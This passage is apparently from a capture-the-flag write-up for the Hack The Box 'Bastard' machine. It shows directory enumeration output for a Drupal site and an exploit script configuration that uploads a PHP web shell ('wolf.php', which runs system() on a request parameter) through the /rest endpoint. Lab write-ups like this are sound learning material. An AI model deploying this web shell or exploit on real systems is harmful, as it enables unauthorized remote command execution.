 ```bash
[11:33:31] 403 -    1KB - /ADMIN
[11:38:33] 403 -    1KB - /batch
[12:01:23] 403 -    1KB - /entries
[12:01:23] 403 -    1KB - /Entries
[12:10:19] 301 -  151B  - /includes  ->  http://bastard.htb/includes/
[12:10:25] 200 -    7KB - /index.php
[12:10:48] 403 -    1KB - /install.mysql
[12:10:48] 403 -    1KB - /install.pgsql
[12:16:08] 301 -  147B  - /misc  ->  http://bastard.htb/misc/
[12:16:08] 301 -  147B  - /Misc  ->  http://bastard.htb/Misc/
[12:16:31] 301 -  150B  - /modules  ->  http://bastard.htb/modules/
[12:18:05] 200 -    7KB - /node
[12:26:09] 301 -  151B  - /profiles  ->  http://bastard.htb/profiles/
[12:29:39] 403 -    1KB - /repository
[12:30:12] 200 -   62B  - /rest
[12:30:35] 200 -    2KB - /robots.txt
[12:30:37] 403 -    1KB - /root
[12:30:37] 403 -    1KB - /Root
[12:31:51] 301 -  150B  - /scripts  ->  http://bastard.htb/scripts/
[12:31:51] 301 -  150B  - /Scripts  ->  http://bastard.htb/Scripts/
[12:31:59] 403 -    1KB - /search
[12:31:59] 403 -    1KB - /Search
[12:34:40] 301 -  148B  - /sites  ->  http://bastard.htb/sites/
[12:34:40] 301 -  148B  - /Sites  ->  http://bastard.htb/Sites/
[12:39:17] 403 -    1KB - /tag
[12:39:49] 403 -    1KB - /template
[12:40:28] 301 -  149B  - /themes  ->  http://bastard.htb/themes/
[12:40:28] 301 -  149B  - /Themes  ->  http://bastard.htb/Themes/
[12:43:35] 200 -    7KB - /user
[12:47:54] 200 -   42B  - /xmlrpc.php

Task Completed
```

From these `/rest` seems interesting.

So this the rest_endpoint we looking for and its working.

![Untitled](/img/htb-bastard/Untitled%203.png)

I changed some full things in my script.

```php
$url = 'http://bastard.htb';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'wolf.php',
    'data' => '[?php system($_REQUEST["cmd"]); ?](?php system($_REQUEST["cmd"]); ?)'
];
```

